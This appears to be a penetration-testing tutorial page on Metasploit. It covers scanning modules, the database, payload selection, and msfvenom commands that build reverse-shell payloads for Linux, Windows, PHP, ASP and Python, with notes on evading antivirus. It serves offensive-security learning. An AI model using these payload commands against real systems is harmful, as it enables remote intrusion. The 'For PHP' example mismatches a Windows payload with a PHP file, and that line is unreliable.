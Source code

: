 ```yaml
---
description: Exploitation using Metasploit
---
```


# Exploitation

### Scanning

Metasploit has many modules for port scanning, these can be listed using `search portscan` from `msfconsole`. Port scanning modules usually require some options to be set, such as:

* CONCURRENCY : number of ports to be scanned simultaneously
* PORTS : port range to be scanned, different from nmap, nmap will scan the most used 1000 ports, Metasploit will scan from 1 to 10,000.
* RHOSTS : target to scan
* THREADS : number of threads to be used simultaneously

The `/scanner/discovery/udp_sweep` module allows quick identification of UDP services, can help quickly identify DNS or NetBIOS.

The `smb_enumshares` and `smb_version` modules can be useful in corporate networks.

### Metasploit Database

The Metasploit Database can be used to simplify attacking several targets. To initialise this, use `systemctl start postgresql` followed by `msfdb init`. To verify this is running, enter `msfconsole` and then run `db_status`.

On launch, you will be in the default workspace, this can be verified by typing `workspace`. A workspace can be added using `-a` or removed using `-d`. You can jump between workspaces using `workspace [workspace_name]`.

In a database version of Metasploit, you can use `help` to list out the Database backend commands. Running `db_nmap` will save all results to the database. Information on relevant target hosts and services can now be viewed using `hosts` or `services` respectively. Using `hosts -R` will set the host(s) values to RHOSTS by default.

### Vulnerability Scanning

Metasploit allows quick identification of critical vulnerabilities which can be considered "low hanging fruit". This is typically any easily exploitable and vulnerable service that would allow a foothold on a server or even high-level privilege access. The better you are at scanning and fingerprinting a service, the easier it will be to identify critical vulnerabilities.

### Exploiting

Once you have selected an exploit, you can either use the default payload or select a payload using `show payloads` then `set payload [payload_name | line_number]`.&#x20;

### Msfvenom

Msfvenom allows you to generate your own payloads, it provides access to all available payloads in Metasploit and allows you to create them in many different formats, for many different systems. Msfvenom can generate a stand-alone payload or a usable raw format payload, you can list supported outputs by using `msfvenom --list formats`.

Encoders can be applied to try to evade antivirus, in most cases modern obfuscation or injection methods are far more effective. Encoding can be used with the `-e` option.

Example code to generate a generic php reverse shell would be: `msfvenom -p php/reverse_php LHOST=[IP_ADDR] LPORT=[PORT] -f raw > reverse_shell.php`. The output will be missing the starting PHP comment tag and the end tag, these should be added to convert it to a working PHP file.

Commonly used examples will follow here, in these examples LHOST will be the attacking IP of your machine and LPORT will be the port the handler listens on:

For Linux:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f elf > rev_shell.elf
```

Note for this one: .elf on Linux is like .exe on Windows, make sure when it is uploaded that it has executable permissions by running `chmod +x rev_shell.elf`.

For Windows:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f exe > rev_shell.exe
```

For PHP:

```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f raw > rev_shell.php
```

For ASP:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP_ADDR] LPORT=[PORT] -f asp > rev_shell.asp
```

For Python:

```
msfvenom -p cmd/unix/reverse_python LHOST=[IP_ADDR] LPORT=[PORT] -f raw > rev_shell.py
```
